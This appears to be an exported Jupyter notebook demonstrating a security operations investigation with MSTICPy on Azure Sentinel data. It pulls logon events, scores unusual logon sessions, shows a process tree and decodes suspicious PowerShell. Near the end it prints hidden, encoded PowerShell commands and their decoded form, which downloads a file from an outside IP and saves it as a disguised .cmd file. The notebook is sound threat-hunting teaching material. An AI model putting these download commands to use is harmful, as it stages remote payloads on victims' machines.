9,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-05-03 23:40:00.383000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x9268465e,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-03 23:40:00.383000+00:00,Success,-
...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...
2415,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-28 01:50:00.300000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x3ba247d9,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-28 01:50:00.300000+00:00,Success,-
2417,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-28 02:00:00.317000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x3bbce433,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-28 02:00:00.317000+00:00,Success,-
2419,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-28 01:10:00.240000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x3b39a0bf,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-28 01:10:00.240000+00:00,Success,-
2425,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,2021-04-28 03:20:00.487000+00:00,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x3c8cbabd,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-04-28 03:20:00.487000+00:00,Success,-


In [37]:
account_summary = nb.nblts.azsent.account.AccountSummary()
acct_result = account_summary.run("RonHD", timespan=host_time, options=["-get_bookmarks"])

Loading BokehJS ...

Account(Name=VICTIMPC$, Host={ 'AdditionalData': {},
  'HostName': 'VictimPc.Contoso.Azu...)

,TimeGenerated,TenantId,Account,EventID,SourceComputerId,Computer,SubjectUserName,SubjectDomainName,SubjectUserSid,TargetUserName,TargetDomainName,TargetUserSid,TargetLogonId,LogonProcessName,LogonType,LogonTypeName,AuthenticationPackageName,Status,IpAddress,WorkstationName,TimeCreatedUtc,LogonStatus,AccountName,Source
0,2021-05-04 00:50:00.587000+00:00,8ecf8077-cf51-4820-aadd-14040956f35d,CONTOSO\RonHD,4624,f6638b82-98a5-4542-8bec-6bc0977f793f,VictimPc.Contoso.Azure,VICTIMPC$,CONTOSO,S-1-5-18,RonHD,CONTOSO,S-1-5-21-1661583231-2311428937-3957907789-1105,0x933b9f99,Advapi,4,4 - Batch,Negotiate,,-,VICTIMPC,2021-05-04 00:50:00.587000+00:00,success,RonHD,Windows


No current result.Please use 'run()' to fetch the data before using this method.


<br>
<h3 style="color: White; background-color: DarkSlateGray; padding: 5px">It's also a good idea to look at processes...</h3>

#### ...but which ones?

> Disclaimer - this data is captive (local) data from another host. Just to highlight some things

In [38]:
procs_df = entities.Host.LocalData.host_processes(host_name="MSTICAlertsWin1")
display(procs_df.head())
md(f"Total number of events: {len(procs_df)}", "bold")


,TenantId,Account,EventID,TimeGenerated,Computer,SubjectUserSid,SubjectUserName,SubjectDomainName,SubjectLogonId,NewProcessId,NewProcessName,TokenElevationType,ProcessId,CommandLine,ParentProcessName,TargetLogonId,SourceComputerId,TimeCreatedUtc,index
0,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.819482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x13c,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,%%1936,0x2360,"""C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64/DesiredStat...",C:\Program Files\Microsoft Monitoring Agent\Agent\MonitoringHost.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.260,NaN
1,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:04.826482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x11a8,C:\Windows\System32\conhost.exe,%%1936,0x13c,\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:41:26.267,NaN
2,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:27:58.822482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x1850,C:\Windows\System32\WerFault.exe,%%1936,0x13c,C:\Windows\system32\WerFault.exe -u -p 316 -s 3020,C:\Program Files\Microsoft Monitoring Agent\Agent\Health Service State\ICT 2\CMF-64\DesiredState...,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:42:20.263,NaN
3,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:32:03.359482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0x250,C:\WindowsAzure\GuestAgent_2.7.41491.901_2019-01-14_202614\CollectGuestLogs.exe,%%1936,0x1994,"""CollectGuestLogs.exe"" -Mode:ga -FileName:C:\WindowsAzure\CollectGuestLogsTemp\710dc858-9c96-4df...",C:\WindowsAzure\GuestAgent_2.7.41491.901_2019-01-14_202614\WaAppAgent.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:46:24.800,NaN
4,52b1ab41-869e-4138-9e40-2a4457f09bf0,WORKGROUP\MSTICAlertsWin1$,4688,2021-04-28 03:32:03.372482+00:00,MSTICAlertsWin1,S-1-5-18,MSTICAlertsWin1$,WORKGROUP,0x3e7,0xcac,C:\Windows\System32\conhost.exe,%%1936,0x250,\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1,C:\WindowsAzure\GuestAgent_2.7.41491.901_2019-01-14_202614\CollectGuestLogs.exe,0x0,263a788b-6526-4cdc-8ed9-d79402fe4aa0,2019-02-09 11:46:24.813,NaN


In [39]:
logon_session = nb.nblts.azsent.host.LogonSessionsRarity()
logon_rslt = logon_session.run(data=procs_df)

Extracting features......

,Account,SubjectLogonId,MeanRarity,MaxRarity,ProcessCount
12,MSTICAlertsWin1\ian,0x5d5af2,0.611111,1.000000,54
8,MSTICAlertsWin1\MSTICAdmin,0xbd57571,0.484735,1.000000,38
1,MSTICAlertsWin1\MSTICAdmin,0x109c408,0.432549,1.000000,10
4,MSTICAlertsWin1\MSTICAdmin,0x2e2017,0.408239,1.000000,33
0,-\-,0x3e7,0.350000,0.500000,20
6,MSTICAlertsWin1\MSTICAdmin,0x78225e,0.297775,0.500000,21
9,MSTICAlertsWin1\MSTICAdmin,0xbed1e13,0.297775,0.500000,21
2,MSTICAlertsWin1\MSTICAdmin,0x1e821b5,0.239992,0.500000,8
7,MSTICAlertsWin1\MSTICAdmin,0xab5a5ac,0.239992,0.500000,8
10,MSTICAlertsWin1\MSTICAdmin,0xc277459,0.236656,1.000000,6


Loading BokehJS ...

In [40]:
logon_rslt.process_tree(account="MSTICAlertsWin1\ian")

Loading BokehJS ...

In [41]:
enc_cmds = logon_rslt.processes_with_cluster.query("Account.str.contains('ian') and NewProcessName.str.contains('powershell')")

display(enc_cmds[["NewProcessName", "CommandLine"]])


,NewProcessName,CommandLine
20856,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,powershell.exe -nop -w hidden -encodedcommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAL...
20857,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,powershell.exe -nop -w hidden -encodedcommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAL...


In [42]:
for row in entities.Process.util.b64decode(enc_cmds, column="CommandLine").itertuples():
    print(row.Index, row.decoded_string)


0 I n v o k e - W e b R e q u e s t   - U r i   " h t t p : / / 3 8 . 7 5 . 1 3 7 . 9 : 9 0 8 8 / s t a t i c / e n c r y p t . m i n . j s ? s t a t u s = d o n e " 
1 I n v o k e - W e b R e q u e s t   - U r i   " h t t p : / / 3 8 . 7 5 . 1 3 7 . 9 : 9 0 8 8 / s t a t i c / e n c r y p t . m i n . j s "   - O u t F i l e   " r e g e d 1 t . c m d " 


---

<h2 style="color: White; background-color: DarkSlateBlue; padding: 10px">End of part 1 - The SOC story.</h2>

<h3 style="color: White; background-color: DarkSlateGray;padding: 10px">We identified a network traffic anomaly</h3>

<ul style="font-size: large">
<li>We found the IP addresses responsible</li>
<li>We found contextual info such as geo location and subnet ownership</li>
<li>We used Threat Intelligence to confirm that this IP was malicious</li>
</ul>


<h3 style="color: White; background-color: DarkSlateGray; padding: 10px">Looking at the host</h3>
<ul style="font-size: large">
<li>We retrieved some overview data about our host</li>
<li>Retrieved a lot of info about the logon patterns on that host</li>
<li>Were able to identify the suspicious session and view the process tree</li>
<li>We found some encoded powershell commands linking back to the attacker</li>
</ul>

---

<h3 style="color: White; background-color: DarkSlateGray; padding: 10px">Note - this won't be the end of the story for the Analyst...</h3>


<h3 style="color: White; background-color: DarkSlateGray; padding: 10px">...nor for us. On to part #2</h3>